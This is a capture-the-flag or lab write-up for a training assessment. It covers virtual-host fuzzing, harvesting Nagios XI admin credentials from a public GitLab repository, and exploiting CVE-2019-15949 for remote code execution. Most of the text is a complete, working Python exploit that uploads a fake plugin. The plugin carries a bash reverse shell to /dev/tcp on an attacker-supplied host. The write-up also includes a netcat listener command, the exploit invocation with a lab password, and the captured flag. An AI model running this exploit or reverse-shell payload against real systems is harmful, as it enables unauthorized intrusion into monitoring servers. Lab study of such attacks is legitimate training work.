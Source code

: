 # Nagios XI Authenticated Remote Code Execution under Attacking Common Applications - Skills Assessment II 

I began this assessment by performing a full port scan using nmap to identify any open services on the target machine. 
The initial scan revealed only a single service: a web server running on port 80. With this limited exposure, I turned my focus to web-based enumeration.

Visiting the IP in a browser displayed a default placeholder page, giving no immediate indication of the underlying technology or functionality. 
Suspecting the presence of virtual hosts, I ran a ffuf scan against the web server using the Host header to fuzz for subdomains. The command used was:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.inlanefreight.local" -u http://10.129.201.90 -fs 4242
```
This technique led to the discovery of three virtual hosts: `blog.inlanefreight.local`, `gitlab.inlanefreight.local`, and `monitoring.inlanefreight.local`. 
I updated my `/etc/hosts` file accordingly to resolve these domains to the target IP.

The `blog.inlanefreight.local` domain presented a WordPress site. A quick inspection of the page source and URL structure confirmed the use of WordPress through paths such as `/wp-content/` and `/wp-includes/`. 
Although enumeration with tools like wpscan was a possible next step, I chose instead to explore the other two subdomains first for any potentially more immediate attack vectors.

Navigating to `gitlab.inlanefreight.local`, I encountered an accessible GitLab instance that allowed registration and browsing of public repositories. 
I registered a user account and explored a project named “virtualhost,” which contained application configuration files. Inside the repository, I discovered hardcoded credentials and references to backend services such as a PostgreSQL database. 
One critical piece of information was a set of administrator credentials for what appeared to be the monitoring system.

Using these credentials, I logged into monitoring.inlanefreight.local, which was identified as a Nagios XI installation. Based on its interface and layout, 
I recognized it as a version potentially vulnerable to a known authenticated remote code execution vulnerability, **CVE-2019-15949**. I confirmed that the version and endpoint paths matched the exploit's requirements

With the Nagios admin credentials in hand, I downloaded a public exploit for CVE-2019-15949 and set up a listener on my attacker machine using `nc`:
```bash
nc -lvnp 8081
```
![image](https://github.com/user-attachments/assets/0c6340bb-dea9-431e-96e5-c66fc76d26f2)

I then executed the Python exploit, configured with the target URL, Nagios credentials, and my listener details:
```bash
python3 exploit.py \
  -t 'http://monitoring.inlanefreight.local' \
  -b /nagiosxi/ \
  -u nagiosadmin \
  -p 'oilaKglm7M09@CPL&^lC' \
  -lh 10.10.14.64 \
  -lp 8081
```

![image](https://github.com/user-attachments/assets/eb967440-3fdc-40e9-88cd-a1caaf7a9e35)

Once triggered, the exploit successfully delivered a reverse shell, and I received a connection back as the `nagios` user on the `skills2` system. I stabilized the shell and began enumeration of the file system.

![image](https://github.com/user-attachments/assets/f851bdb3-fd70-4467-bad9-1b05c6a3d40e)


Searching for the flag, I navigated to the web server’s admin directory and located a file named `f5088a862528cbb16b4e253f1809882c_flag.txt` under `/usr/local/nagiosxi/html/admin/`. I used the `cat` command to read its contents and retrieved the final flag:
`afe377683dce373ec2bf7eaf1e0107eb`.

This assessment reinforced the importance of thorough reconnaissance, especially when web services appear limited or non-interactive. Virtual host enumeration turned out to be the key that unlocked the entire attack chain, eventually leading to a successful exploitation of an authenticated RCE vulnerability in Nagios XI.

**Source:** 
Nagios Xi 5.6.6 - Authenticated Remote Code Execution (RCE): https://www.exploit-db.com/exploits/52138

**Script I used:**
```bash
import argparse
import re
import requests

class Nagiosxi():
    def __init__(self, target, parameter, username, password, lhost, lport):
        # Initialize parameters for the target, credentials, and listener
        self.url = target
        self.parameter = parameter
        self.username = username
        self.password = password
        self.lhost = lhost
        self.lport = lport
        self.login()  # Begin with login to obtain authenticated session

    def upload(self, session):
        # Disable SSL warnings (for self-signed certs or insecure connections)
        requests.packages.urllib3.disable_warnings()

        print("Uploading malicious plugin to Nagios XI...")

        # Construct upload URL for plugin page
        upload_url = self.url + self.parameter + "/admin/monitoringplugins.php"

        # First, get the NSP token required for uploading a file
        upload_token = session.get(upload_url, verify=False)
        nsp = re.findall('var nsp_str = "(.*)";', upload_token.text)
        print("Upload NSP Token: " + nsp[0])

        # Prepare reverse shell payload to be uploaded as a fake plugin
        payload = f"bash -c 'bash -i >& /dev/tcp/{self.lhost}/{self.lport} 0>&1'"

        # Required form data including the token
        file_data = {
            "upload": "1",
            "nsp": nsp[0],
            "MAX_FILE_SIZE": "20000000"
        }

        # Fake plugin upload as a binary file (shell command)
        file_upload = {
            "uploadedfile": ("check_ping", payload, "application/octet-stream", {"Content-Disposition": "form-data"})
        }

        # Upload the fake plugin file to the server
        session.post(upload_url, data=file_data, files=file_upload, verify=False)

        # Access the malicious payload to trigger code execution
        payload_url = self.url + self.parameter + "/includes/components/profile/profile.php?cmd=download"
        session.get(payload_url, verify=False)

    def login(self):
        # Disable SSL warnings again
        requests.packages.urllib3.disable_warnings()

        print("Attempting login to Nagios XI...")

        # Start a new session for authentication
        session = requests.Session()

        # Construct the login URL
        login_url = self.url + self.parameter + "/login.php"

        # Retrieve the login page to extract NSP token for CSRF protection
        token = session.get(login_url, verify=False)
        nsp = re.findall('name="nsp" value="(.*)">', token.text)
        print("Login NSP Token: " + nsp[0])

        # Create the login POST data with username, password, and token
        post_data = {
            "nsp": nsp[0],
            "page": "auth",
            "debug": "",
            "pageopt": "login",
            "redirect": "",
            "username": self.username,
            "password": self.password,
            "loginButton": ""
        }

        # Send the login request
        login = session.post(login_url, data=post_data, verify=False)

        # Check for successful login by keyword in HTML response
        if "Home Dashboard" in login.text:
            print("Logged in successfully!")
        else:
            print("Login failed. Please check credentials.")
            return

        # If login succeeded, proceed to upload the malicious plugin
        self.upload(session)

if __name__ == "__main__":
    # Set up argument parsing for command line inputs
    parser = argparse.ArgumentParser(description='CVE-2019–15949 Nagios XI Authenticated Remote Code Execution Exploit')

    # Target URL and required parameters
    parser.add_argument('-t', metavar='<Target base URL>', help='Example: -t http://nagios.url/', required=True)
    parser.add_argument('-b', metavar='<Base Directory>', help='Example: -b /nagiosxi/', required=True)
    parser.add_argument('-u', metavar='<Username>', help='Username for Nagios XI login', required=True)
    parser.add_argument('-p', metavar='<Password>', help='Password for Nagios XI login', required=True)
    parser.add_argument('-lh', metavar='<Listener IP>', help='Attacker IP to receive shell', required=True)
    parser.add_argument('-lp', metavar='<Listener Port>', help='Attacker Port to receive shell', required=True)

    args = parser.parse_args()

    try:
        print('Launching CVE-2019-15949 Nagios XI exploit...')
        Nagiosxi(args.t, args.b, args.u, args.p, args.lh, args.lp)
    except KeyboardInterrupt:
        print("\nInterrupted by user. Exiting.")
        exit()
```

